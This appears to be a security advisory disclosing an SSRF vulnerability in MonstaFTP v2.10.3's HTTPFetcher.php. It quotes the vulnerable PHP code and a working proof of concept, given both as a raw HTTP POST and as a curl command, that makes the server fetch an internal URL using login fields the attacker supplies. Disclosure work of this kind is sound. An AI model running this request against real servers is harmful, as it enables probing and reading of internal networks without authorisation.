

# SSRF vulnerability in `performFetchRequest` Function of `HTTPFetcher.php` File (MonstaFTP v2.10.3 version)

## 0x01 Affected version

vendor:  https://www.monstaftp.com/

version:  v2.10.3

php version: 7.2.x

## 0x02 Vulnerability description

The vulnerable code is located in the `performFetchRequest` function of the `application/api/file_fetch/HTTPFetcher.php` file, which does not perform sufficient checksum on the source parameter, leading to a taint from the `$context['source']` variable and enters the tainted function `curl_setopt`, which sends a request to the URL specified by the source parameter after the `curl_exec` function is executed, eventually leading to an SSRF vulnerability.

Although the vulnerability requires login authentication verification, but because the FTP/SFTP login here is able to login to our own FTP server, so the login field can pass the verification as long as it is set, so as to take advantage of the SSRF vulnerability. So it is equivalent to pre-authentication SSRF, which is more harmful!

```php
private function performFetchRequest() {
    $fp = fopen($this->tempSavePath, 'w+');
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $this->fetchRequest->getURL());
    curl_setopt($ch, CURLOPT_FILE, $fp);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    curl_setopt($ch, CURLOPT_HEADERFUNCTION, array(&$this->fetchRequest, 'handleCurlHeader'));
    $success = @curl_exec($ch);
    $curlError = @curl_error($ch);
    $effectiveUrl = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
    $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);

    curl_close($ch);
    fclose($fp);
```

Because the `source` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
POST /application/api/api.php HTTP/1.1
Host: 172.16.119.130
Content-Length: 275
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://172.16.119.130
Referer: http://172.16.119.130/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

request={"connectionType":"sftp","configuration":{"host":"172.16.119.130","remoteUsername":"zero","initialDirectory":"/tmp/","authenticationModeName":"Password","password":"123456","port":22},"actionName":"fetchRemoteFile","context":{"source":"http://172.16.119.1/flag.txt"}}
```




You can also use the following curl command to verify the vulnerability

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.130' -H $'Accept: application/json, text/plain, */*' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' -H $'Content-Length: 275' \
    --data-binary $'request={\"connectionType\":\"sftp\",\"configuration\":{\"host\":\"172.16.119.130\",\"remoteUsername\":\"zero\",\"initialDirectory\":\"/tmp/\",\"authenticationModeName\":\"Password\",\"password\":\"123456\",\"port\":22},\"actionName\":\"fetchRemoteFile\",\"context\":{\"source\":\"http://172.16.119.1/flag.txt\"}}' \
    $'http://172.16.119.130/application/api/api.php'
```

## 0x03 Acknowledgement

Ez Wang, W Xie, Yf Gao, Zh Wang, Lj Wu